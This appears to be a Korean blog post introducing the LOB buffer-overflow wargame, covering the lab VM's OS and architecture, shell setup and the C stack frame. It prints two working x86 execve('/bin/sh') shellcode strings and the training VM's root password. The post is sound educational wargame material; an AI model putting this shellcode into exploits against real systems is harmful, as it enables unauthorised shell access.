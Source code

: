 ```yaml
---
layout: single
title: "LOB Intro"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


BOF의 OS의 종류와 버전은 LOB의 VM을 통해 Red Hat Linux 6.2라는 것을 알 수 있으며 리눅스 환경이므로 ELF 파일구조를 사용함과 어셈블리어가 at&t 문법임을 유추해 낼 수 있다. 그리고 아래와 같이 i686 아키텍처이므로 32bit 메모리를 사용함을 알 수 있다.

![arch](https://s01va.github.io/assets/images/2016-02-05-LOB-Intro/0.png)


LOB 풀이에 사용한 쉘코드는 다음과 같다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

25bytes shellcode(execve(“/bin/sh”) 사용)

```
\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6
```

/x2f가 없는 shellcode


그리고 LOB의 default shell(bash)의 버전이 낮아 /xff의 입력을 /x00으로 받아들이는 오류가 있으므로 bash2를 사용하도록 한다. root 권한으로 이를 한꺼번에 바꾸도록 한다. root의 패스워드는 hackerschoolbof이다. root로 로그인 후 /etc/passwd를 열어 bash를 bash2로 모두 치환해준다.

![bash2](https://s01va.github.io/assets/images/2016-02-05-LOB-Intro/1.png)


다음은 C언어의 stack frame structure이다.


![[memory map of a typical C ELF executable on x86]](https://s01va.github.io/assets/images/2016-02-05-LOB-Intro/2.png)